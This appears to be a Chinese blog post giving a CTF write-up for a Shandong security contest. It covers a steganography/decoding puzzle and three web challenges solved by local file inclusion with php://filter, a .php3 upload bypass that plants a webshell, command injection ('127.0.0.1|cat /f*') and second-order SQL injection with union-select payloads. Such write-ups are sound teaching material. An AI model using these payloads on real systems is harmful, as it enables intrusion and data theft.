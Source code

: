 ```yaml
---
layout: post
title: 山东新一代信息技术创新应用大赛—信息安全攻防赛项WriteUp
---
```


> 主办方服务器一直很卡，导致比赛体验不是很好，希望下次能换个高配置的服务器 :)

# Misc

## 可爱的喵喵

右键属性->细节->镜头制造商

![image-20201119223004616](https://tva1.sinaimg.cn/large/0081Kckwly1gkuur246qpj30w20sc4dv.jpg)

得到

`4D5A5747435A33334D563447535A53374E425557495A44464E5A50574D3342554D3536513D3D3D3D`

hex解密 -> base32解密 ->flag

![image-20201119223232642](https://tva1.sinaimg.cn/large/0081Kckwly1gkuutibz60j30je0bu3ze.jpg)

# Web

## web1

打开题目链接，发现只有一个Apache2的默认页面，dirsearch扫一下web目录，看看有没有什么敏感文件

![image-20201119114703077](https://tva1.sinaimg.cn/large/0081Kckwly1gkuc5xri43j311r0u0tmc.jpg)

```bash
python3 dirsearch.py -u http://47.105.128.249:35001/
```

![image-20201119115000878](https://tva1.sinaimg.cn/large/0081Kckwly1gkuc8z1102j31620tq4gi.jpg)

扫描完成后发现 "edit.php f.php upload.php很可疑"

访问http://47.105.128.249:35001/f.php?f=index.html

![image-20201119115639459](https://tva1.sinaimg.cn/large/0081Kckwly1gkucfw0j1cj31cf0u0dph.jpg)

发现成功包含文件，目测存在任意文件包含+读取，于是尝试读取/etc/passwd

经测试发现未开启远程包含

这里使用file协议读取

http://47.105.128.249:35001/f.php?f=file:///etc/passwd

![image-20201119120407487](https://tva1.sinaimg.cn/large/0081Kckwly1gkucnmzokjj30sq0cqn0h.jpg)

再利用PHP伪协议读取upload.php源代码审计一波

http://47.105.128.249:35001/f.php?f=php://filter/read=convert.base64-encode/resource=upload.php

upload.php

```php
<?php
$res = [];
if ($_POST["filename"] == '') {
    $res['state'] = false;
    $res['info'] = "请上传txt格式文件";
    echo json_encode($res);
    exit();
} else {
    $file_name = $_POST['filename'];
    $file_ext = strrchr($file_name, '.');
    if($file_ext == '.php'){
        $res['state']=false;
    	$res['info']="文件名非法！";
    	echo json_encode($res);
    	exit();
    }
    $file_name = preg_replace("/[^a-zA-Z0-9.]+/","",$file_name);
    if($file_name === "") {
    	$res['state']=false;
    	$res['info']="要传好好传，别搞啊";
    	echo json_encode($res);
    	exit();
    }
    $file_path = './Uploads/'.$file_name;
    $fileContent = $_POST['filecontent'];

    if(strpos($fileContent,'eval')){
        $res['info']="检测到恶意代码，禁止上传！";
        echo json_encode($res);
        exit();
    }
    
    if(strpos($fileContent,'assert')){
        $res['info']="检测到恶意代码，禁止上传！";
        echo json_encode($res);
        exit();
    }
  
    $a = explode('.', $_POST['filename']);
    $ext = $a[count($a)-1];
    if (strtolower($ext)=='php') {
        file_put_contents($file_path, $fileContent);
    }
    else {
        file_put_contents($file_path, $fileContent);
    }
    $res['state'] = true;
    $res['info'] = '文件保存至'.$file_path;
    echo json_encode($res);
    exit();
}
```

发现只过滤了php后缀，可以直接利用php3绕过上传webshell

但奇怪的是前端并没有找到上传表单，索性看了下upload.js

![image-20201119223913843](https://tva1.sinaimg.cn/large/0081Kckwly1gkuv0hetvkj30uo0rkte4.jpg)

```javascript
$(function () {
    $("#submit").on("click", function () {
        var fileName = $('#file_name').val();
        var fileContent = $('#file_content').val();
        $.ajax({
            url: "/upload.php",
            method: "POST",
            data: {filename: fileName, filecontent: fileContent},
            success:function (data, status) {
                result = JSON.parse(data);
                var notice = $('<div class="alert m-5" role="alert">' + result["info"] + '</div>');
                if (result["state"]) {
                    notice.addClass("alert-success");
                } else
                    notice.addClass("alert-danger");
                if ($('div.alert')) {
                    $('div.alert').remove();
                }
                $('form.m-5').before(notice);
            }
        });
    });
    }
);
```

![image-20201119123808460](https://tva1.sinaimg.cn/large/0081Kckwly1gkudn34i4bj30ze0aggne.jpg)

发现定义了上传过程，需要POST传参filename 和 filecontent，简单构造一下请求包

这里我们就不上传shell了，换用php文件包含

![image-20201119130524566](https://tva1.sinaimg.cn/large/0081Kckwly1gkueff7y5kj31eg0u0h1p.jpg)

换成小马重新上传，蚁剑连接

![image-20201119130858625](https://tva1.sinaimg.cn/large/0081Kckwly1gkuej7cwwlj316m0u0tai.jpg)

​	`flag{3676a83707feca6c9da2a058582d7191}`

> 其实web1有很多解法，下面来说一说其他的解法
>
> 1）构造上传包->上传txt（内容为一句话马）->f.php本地文件包含->getshell->get flag
>
> 2）利用php伪协议读源码 http://47.105.128.249:35001/f.php?f=php://filter/read=convert.base64-encode/resource=upload.php然后审计上传函数，构造上传包上传php3后缀的马->get flag

## web2

php任意代码执行无过滤

![image-20201119224047154](https://tva1.sinaimg.cn/large/0081Kckwly1gkuv22wpp4j30mc0b675y.jpg)

构造payload

http://47.105.128.249:35002/?target=127.0.0.1|cat /f*

`flag{40e9a8e44ed6216f6455147d354c8276}`



# web3

![image-20201119225348834](https://tva1.sinaimg.cn/large/0081Kckwly1gkuvfn1dfbj30cw098wep.jpg)

![image-20201119225136950](https://tva1.sinaimg.cn/large/0081Kckwly1gkuvdd4x2pj31180a4tel.jpg)

发现有注册和登录 并且注册之后登录会显示出同年龄的人 猜测后台sql语句为：

`select * from where age='100'`

在注册的时候会有insert操作，但是后来测试了发现有转义，由此基本判断为二次注入

![image-20201119225719819](https://tva1.sinaimg.cn/large/0081Kckwly1gkuvjakej9j30ey0bm0tj.jpg)

在年龄处构造payload 使其查询数据并判断字段数量

1' order by 4# //返回正常

<img src="https://tva1.sinaimg.cn/large/0081Kckwly1gkuvregvu7j30gc15w781.jpg" alt="image-20201119230506211" style="zoom:50%;" />

1' order by 5# //无返回

![image-20201119230812410](https://tva1.sinaimg.cn/large/0081Kckwly1gkuvulowlbj30gs0ea0u1.jpg)

知道共有4个字段，union select 1,2,3,4 发现页面只回显了2

剩下的依次查询库名，表名，字段名就可以了

```sql
-1' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema=0x74657374 -- z#
```

![image-20201119232950246](https://tva1.sinaimg.cn/large/0081Kckwly1gkuwh4ogk8j31m60e0acw.jpg)

```sql
-1' union select 1,fl44g,3,4 from flaaag-- z#
```

![image-20201119233249667](https://tva1.sinaimg.cn/large/0081Kckwly1gkuwk8k2ekj31oq0g0wia.jpg)

# Re

